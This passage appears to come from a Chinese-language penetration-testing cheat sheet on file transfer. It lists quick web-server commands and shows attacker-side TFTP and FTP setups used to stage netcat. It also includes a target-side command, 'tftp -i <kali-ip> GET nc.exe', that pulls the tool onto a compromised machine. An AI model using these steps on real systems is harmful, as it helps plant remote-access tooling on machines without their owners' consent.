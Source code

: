 - Erlang
    ```bash
    erl -s inets -eval 'inets:start(httpd,[{server_name,"NAME"},{document_root, "."},{server_root, "."},{port, 8000},{mime_types,[{"html","text/html"},{"htm","text/html"},{"js","text/javascript"},{"css","text/css"},{"gif","image/gif"},{"jpg","image/jpeg"},{"jpeg","image/jpeg"},{"png","image/png"}]}]).'
    ```

- busybox httpd
    ```bash
    busybox httpd -f -p 8000
    ```

- webfs
    ```bash
    webfsd -F -p 8000
    ```

- IIS Express
    ```bash
    C:\> "C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\MyWeb /port:8000
    ```

#### FTP

**tftp**

基于 udp,端口为 69

- **攻击端起 tftp**
    ```bash
    mkdir /tftp
    atftpd --daemon --port 69 /tftp
    cp /usr/share/windows-binaries/nc.exe /tftp/
    chown -R nobody /tftp
    ```

- **目标机**
    ```bash
    tftp -i <kali-ip> GET nc.exe
    ```

**ftp**

- **攻击端**
    ```bash
    apt-get install -y pure-ftpd

    groupadd ftpgroup
    useradd -g ftpgroup -d /dev/null -s /etc ftpuser
    pure-pw useradd username -u ftpuser -d /ftphome
    pure-pw mkdb
    cd /etc/pure-ftpd/auth/
    ln -s ../conf/PureDB 60pdb
    mkdir -p /ftphome
    chown -R ftpuser:ftpgroup /ftphome/
    /etc/init.d/pure-ftpd restart
    ./setup-ftp(输入要设置的密码)
    ```
